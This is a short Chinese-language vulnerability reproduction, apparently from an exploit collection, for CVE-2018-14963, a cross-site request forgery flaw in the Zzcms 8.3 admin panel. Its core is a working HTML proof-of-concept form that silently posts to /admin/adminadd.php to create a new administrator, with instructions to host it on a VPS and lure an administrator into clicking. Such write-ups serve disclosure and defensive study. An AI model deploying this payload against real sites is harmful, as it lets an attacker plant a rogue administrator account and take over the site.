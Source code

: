 # CVE-2018-14963 Zzcms 8.3 csrf

### 一、漏洞简介

### 二、漏洞影响

Zzcms 8.3

### 三、复现过程

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://url:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![](images/15896919920272.png)


点击链接之后：

![](images/15896919987121.png)


参考链接

https://www.anquanke.com/post/id/156660